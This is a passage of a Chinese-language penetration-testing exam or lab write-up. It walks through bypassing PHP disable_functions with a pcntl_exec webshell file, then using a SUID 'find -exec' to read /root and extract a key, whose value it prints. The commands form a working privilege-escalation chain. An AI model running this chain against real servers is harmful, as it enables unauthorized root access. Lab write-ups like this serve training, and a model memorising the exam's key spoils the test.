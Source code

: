 只剩下一个提权的key了，这里可以在phpinfo里看一下

![image-20221224172000524](F:/Typora_pic/pte/image-20221224172000524.png)

禁用了好多参数

![image-20221224172046174](F:/Typora_pic/pte/image-20221224172046174.png)

pcntl爱开着，可以用这个

直接用蚁剑新建两个文件

```php
<?php pcntl_exec("/bin/bash",array("/home/wwwroot/ok/ifconfig.sh"));?>
```

这个新的文件是调用目录下的ifconfig.sh

```
find / -perm /4000 -ls > ifconfig.txt
```

在浏览器里访问这个页面

![image-20221224173314882](F:/Typora_pic/pte/image-20221224173314882.png)

显示服务器错误不要紧，页面响应了

提权的命令执行了，直接看下生成的文件

![image-20221224173459565](F:/Typora_pic/pte/image-20221224173459565.png)

既然是需要提权的key，应该在root目录下，修改一下命令

```
find /etc/passwd -exec  ls /root \; > ifconfig.txt
```

![image-20221224173721709](F:/Typora_pic/pte/image-20221224173721709.png)

果然有，再修改一下命，把它cat出来

```
find /etc/passwd -exec  cat /root/key8 \; > ifconfig.txt
```

访问第二个php文件调用一下sh文件，访问一下生成的文件

![image-20221224173854969](F:/Typora_pic/pte/image-20221224173854969.png)

**key8:nasmc8aw**

# http://10.11.0.242/

继续是渗透大题，给了一个地址，直接访问一下，然后丢进御剑里

![image-20221224174016938](F:/Typora_pic/pte/image-20221224174016938.png)
